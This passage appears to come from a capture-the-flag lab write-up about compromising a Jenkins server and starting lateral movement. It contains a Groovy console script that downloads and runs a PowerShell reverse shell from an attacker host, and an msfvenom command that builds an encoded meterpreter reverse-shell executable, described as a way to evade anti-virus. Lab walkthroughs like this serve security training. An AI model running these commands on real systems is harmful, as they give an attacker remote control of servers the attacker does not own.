        Here’s a Groovy script that you can run in the Jenkins Script Console:
        
        ```groovy
        groovy
        Copy code
        def scriptUrl = "http://your-ip:8080/Invoke-PowerShellTcp.ps1"
        def command = "powershell iex (New-Object Net.WebClient).DownloadString('${scriptUrl}'); Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port"
        def process = command.execute()
        process.waitFor()
        ```
        
    ![image 12](https://github.com/user-attachments/assets/9adf4cc1-311c-4606-9d26-01a91ae7eb56)

    
    
    - This will listen for incoming connections on port `4444`.
    
    ### **4. Execute the Command on Jenkins**
    
    - Press the run button and if Jenkins executes the command successfully ( the request should hang for a moment), it will connect back to your local machine, and you should receive a reverse shell on your Netcat listener.
    
    ![image 13](https://github.com/user-attachments/assets/1ed5b261-338c-43a9-a8d1-156bf660b210)

    
    NOW ON TO LATERAL MOVEMENT!!!!
    
- # Lateral Movement
    
    ## Switching to Meterpreter:
    
    Now that we’ve achieved initial access, lets follow the room instructions and switch to a meterpreter shell for the privesc process. I’m sure this isn't needed but for the sake of learning I will oblige.They do a good job of explaining the process below:
    
    To make the privilege escalation easier, let's switch to a meterpreter shell using the following process.
    
    Use msfvenom to create a Windows meterpreter reverse shell using the following payload:
    
    **`msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=IP LPORT=PORT -f exe -o shell-name.exe`**
    
    Make sure to use your attacker port and IP, here's my command: 
    
    msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.10.48.67 LPORT=2222 -f exe -o reverse.exe
    
    ![image 14](https://github.com/user-attachments/assets/a57a8b6c-04a6-4a31-b008-93c2d5092e27)

    
    This payload generates an encoded x86-64 reverse TCP meterpreter payload. Payloads are usually encoded to ensure that they are transmitted correctly and also to evade anti-virus products. An anti-virus product may not recognise the payload and won't flag it as malicious.
    